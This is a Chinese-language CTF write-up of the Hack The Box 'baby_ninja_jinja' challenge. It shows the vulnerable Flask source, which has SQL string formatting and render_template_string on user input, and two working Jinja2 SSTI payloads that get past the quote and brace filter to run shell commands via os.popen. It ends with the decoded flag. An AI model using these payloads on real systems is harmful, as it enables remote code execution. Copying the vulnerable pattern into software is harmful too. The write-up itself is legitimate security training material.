 ```yaml
---
title: HTB-baby_ninja_jinja-web-challenge-wp
categories: [CTF,HTB]
tags: [web,python]

---
```

单纯的python ssti 已经是过去了,但是偶尔刷下还是有意思...<!--more-->

## 漏洞发现

进入页面，发现有一个输入接口：

![image-20220326224004255](image-20220326224004255.png)

按下F12查看源码：发现提示有`/debug` 路由。找到了源码提示:

```python
from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools, sqlite3, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)

acc_tmpl = '''{% extends 'index.html' %}
{% block content %}
<h3>baby_ninja joined, total number of rebels: reb_num<br>
{% endblock %}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        get_db().cursor().executescript(f.read())

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()

def rite_of_passage(func):
    @functools.wraps(func)
    def born2pwn(*args, **kwargs):

        name = request.args.get('name', '')

        if name:
            query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report

            return render_template('welcome.jinja2')
        return func(*args, **kwargs)
    return born2pwn

@app.route('/')
@rite_of_passage
def index():
    return render_template('index.html')

@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=True)
```

发现在`rite_of_passage`函数的`born2pwn`调用里存在ssti：

```python
            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )
```

`render_template_string `的传参收到我们输入的name影响。

但是存在着两个问题:

1.无论输入什么都没用什么明显区别且有意义的回显。

2`{ {`、`'`、`"`这几个符号被ban。

## 漏洞利用

![image-20220326230753091](image-20220326230753091.png)

但是无意中发现，开了报错页面

![image-20220326232127657](image-20220326232127657.png)

因此我们可以用include 和报错来回显我们输入内容。同时，用`request.args`来传递参数来传递字符串来绕过引号。

构造payload：

```
name={%25include%201.__class__.__base__.__subclasses__()[-6].__init__.__globals__.os.popen(request.args.xxx).read()|string%25}&xxx=cat%20f* 
```

、从而得到flag：

![image-20220326141147608](image-20220326141147608.png)

## 其他思路

在查看其他大佬的思路时发现他们是利用`session.update`来更新session来回显。

`session.update`方法可以根据我们传入的字典来重新生成session，用法：

```python
session.update(dict)
//ps
session.update({'a':1})
```

于是构造payload：

```
name={%print%20session.update({dict(a=1)|list|last:1.__class__.__base__.__subclasses__()[-6].__init__.__globals__.os.popen(request.args.xxx).read()})%}&xxx=cat%20fA*
```

![image-20220326235131162](image-20220326235131162.png)

解base64后得到flag

```shell
lexs@DESKTOP-MAKMNL3:~$ echo eyJhIjp7IiBiIjoiU0ZSQ2UySTBZbmxmYm1sdWFqUnpYMlF3Ym5SZlp6TjBYM0YxTUhRelpGOHdjbDlqTkhWbmFGUjl
DZz09In19.Yj82BA.RZT3ond24hjE5PZXd2P0P9CHTz|base64 -d
{"a":{" b":"SFRCe2I0YnlfbmluajRzX2QwbnRfZzN0X3F1MHQzZF8wcl9jNHVnaFR9Cg=="}}base64: invalid input
lexs@DESKTOP-MAKMNL3:~$ echo SFRCe2I0YnlfbmluajRzX2QwbnRfZzN0X3F1MHQzZF8wcl9jNHVnaFR9Cg==|base64 -d
HTB{b4by_ninj4s_d0nt_g3t_qu0t3d_0r_c4ughT}
```

## 参考文献

https://lexsd6.github.io/2020/11/27/%E5%85%B3%E4%BA%8Ejinja%E7%89%B9%E6%80%A7%E5%AF%B9ssti%E7%9A%84bypass%E7%9A%84%E5%BD%B1%E5%93%8D/

https://lexsd6.github.io/2020/03/27/python%20%E5%85%B3%E4%BA%8E%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E7%9A%84%E6%80%9D%E8%80%83/

https://www.zapstiko.com/baby-ninja-jinja-challenge-htb-by-raihan-biswas/